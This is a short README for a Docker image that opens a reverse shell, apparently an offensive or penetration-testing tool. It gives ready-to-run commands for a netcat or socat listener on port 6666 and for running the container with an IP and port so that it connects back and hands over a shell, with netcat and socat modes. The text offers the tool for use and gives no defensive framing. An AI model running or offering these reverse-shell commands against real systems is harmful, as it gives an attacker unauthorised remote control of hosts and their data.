 # Reverse Shell Container

Run a container which connects back to a server with a reverse shell.

## Usage of the remote shell container

Follow these steps to connect back to a shell from within a container.

### Start the server

The reverse shell in the container will connect back to your server. Open up a
port with the following snippet:

```bash
nc -lvvp 6666
# OR
socat file:`tty`,raw,echo=0 tcp-listen:6666
```

### optional: Build the image

```bash
docker build -t reverse_shell:latest .
```

### Execute the image

Run the reverse shell container with:
`docker run --rm -it -e IP=192.168.178.26 -e PORT=6666 reverse_shell` (socat)
`docker run --rm -it -e IP=192.168.178.26 -e PORT=6666 -e NETCAT=true reverse_shell`
(netcat)
